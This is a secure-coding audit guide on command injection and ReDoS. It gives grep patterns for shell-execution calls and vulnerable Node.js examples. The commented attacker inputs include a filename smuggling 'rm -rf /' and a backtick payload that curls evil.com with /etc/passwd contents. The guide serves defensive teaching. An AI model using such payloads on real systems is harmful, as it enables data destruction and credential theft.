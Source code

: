 # Specialized Module: Command Injection & ReDoS

**Token Estimate:** ~2,000 tokens
**Purpose:** Prevent command injection and Regular Expression Denial of Service
**Dependencies:** core/03_input_validation.md
**Best For:** Applications with shell execution or complex regex patterns

---

## Objective

Prevent command injection attacks and ReDoS (Regular Expression Denial of Service) vulnerabilities.

---

## Part 1: Command Injection Prevention

## 1. Shell Command Execution Audit

### 1.1 Find All Shell Executions

```
Grep patterns (Node.js):
- "exec\\(|execSync\\(|spawn\\(|execFile\\("
- "child_process"
- "shell.*=.*true"

Grep patterns (Python):
- "os\\.system|subprocess\\.|shell=True"
- "os\\.popen|commands\\."

Grep patterns (Ruby):
- "system\\(|exec\\(|`|%x"
- "Open3\\."

Grep patterns (PHP):
- "shell_exec|exec|system|passthru"
- "proc_open|popen"
```

---

## 2. Command Injection Patterns

### 2.1 User Input in Commands

```typescript
// ❌ P0 - CRITICAL VULNERABILITY
const { exec } = require('child_process')

app.post('/convert', (req, res) => {
  exec(`convert ${req.body.filename} output.png`)
  // Attacker: { filename: "input.jpg; rm -rf /" }
})

// ❌ STILL VULNERABLE - Template literals
exec(`imagemagick ${userInput}`)
// Attacker: "input.jpg`curl evil.com/steal?data=$(cat /etc/passwd)`"

// ❌ VULNERABLE - spawn with shell:true
spawn('convert', [userInput, 'output.png'], { shell: true })
// shell:true allows command injection via shell metacharacters
```